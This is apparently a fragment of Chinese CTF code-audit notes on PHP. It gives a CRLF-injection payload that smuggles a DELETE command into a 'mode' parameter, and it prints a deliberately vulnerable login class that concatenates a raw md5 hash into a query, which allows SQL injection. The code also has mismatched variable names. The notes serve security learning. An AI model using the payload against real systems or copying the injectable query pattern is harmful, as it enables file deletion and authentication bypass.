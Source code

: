 - 题解

*mode是通过request传进来的，在cleanInput方法中将get、post、cookie传进来的全部通过intval函数过滤*

- REQUEST

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200514104553.png)

- payload

```
?mode=1%0a%0dDELETE%20test.file 
```

## Raw MD5 Hash引发的注入

### Turkey Baster

- code 

```php
class RealSecureLoginManager {
  private $em;
  private $user;
  private $password;

  public function __construct($user, $password) {
    $this->em = DoctrineManager::getEntityManager();
    $this->user = $user;
    $this->password = $password;
  }

  public function isValid() {
    $pass = md5($this->password, true);
    $user = $this->sanitizeInput($this->user);

    $queryBuilder = $this->em->createQueryBuilder()
      ->select("COUNT(p)")
      ->from("User", "u")
      ->where("password = '$pass' AND user = '$user'");
    $query = $queryBuilder->getQuery();
    return boolval($query->getSingleScalarResult());
  }

  public function sanitizeInput($input) {
    return addslashes($input);
  }
  
  $c = new RealSecureLoginManager(
  $_POST['user'],
  $_POST['passwd']
);
if (!$auth->isValid()) {
  exit;
}
```
- md5(计算字符串的 MD5 散列值)
